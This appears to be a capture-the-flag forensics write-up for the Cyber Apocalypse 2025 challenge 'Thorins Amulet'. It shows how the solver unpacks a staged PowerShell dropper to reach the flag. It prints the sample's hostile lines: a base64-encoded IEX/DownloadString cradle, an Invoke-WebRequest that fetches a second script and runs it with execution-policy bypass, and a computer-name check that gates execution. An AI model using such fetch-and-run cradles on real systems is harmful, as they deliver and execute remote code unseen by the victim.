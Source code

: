 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Thorins Amulet Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: Thorins Amulet
tags: "forensics, starry, powershell"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>



## Thorins Amulet

> Solved by Starry-Lord


![](https://i.imgur.com/KHsPmEl.png)


inside the zip downloadable we could find `artifact.ps1` :


    function qt4PO {
        if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
            exit
        }
        powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
    }
    qt4PO

Base 64 string decoded to the following:


    IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")

But it was not giving a connection unless you had the correct `COMPUTERNAME` environement variable. This will temporarily change it:


    $env:COMPUTERNAME = "WORKSTATION-DM-0043"

With that we could run the powershell if we wanted, but visiting the url from the challenge docker was enough to get to the next stage which returned an `update.ps1`:


    function aqFVaq {
        Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
        powershell.exe -exec Bypass -File "a541a.ps1"
    }
    aqFVaq

This time I used curl with headers in order to pass the `X-ST4G3R-KEY` which was needed to get the last bit:

curl command:

    curl -H "X-ST4G3R-KEY:5337d322906ff18afedc1edc191d325d" http://94.237.57.230:59390/a541a

a541a.ps1:

    $a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
    ($a35-split"(..)"|?{$_}|%{\[char\][convert]::ToInt16($_,16)}) -join ""

Decode hex for the flag:

    HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}


